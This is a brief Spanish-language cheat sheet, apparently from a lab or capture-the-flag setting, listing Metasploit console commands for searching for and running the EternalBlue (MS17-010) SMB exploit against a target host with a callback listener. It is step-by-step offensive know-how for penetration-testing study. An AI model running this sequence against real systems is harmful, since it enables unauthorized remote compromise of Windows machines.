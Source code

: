 Una de las herramientas más potentes en pruebas de penetración. Contiene miles de exploits, payloads, módulos de escaneo y post-explotación.

comandos:
	abrir:
		`msfconsole`
	Buscar exploits por nombre o CVE:
		`search exploit eternalblue`
	Usar un módulo:
		`use exploit/windows/smb/ms17_010_psexe`c
	Configurar opciones necesarias:
		`set RHOSTS 10.10.10.40`
		`set LHOST tun0`
	Verificar si es vulnerable (si el módulo lo permite):
		`check`
	Ejecutar el exploit
		`exploit`



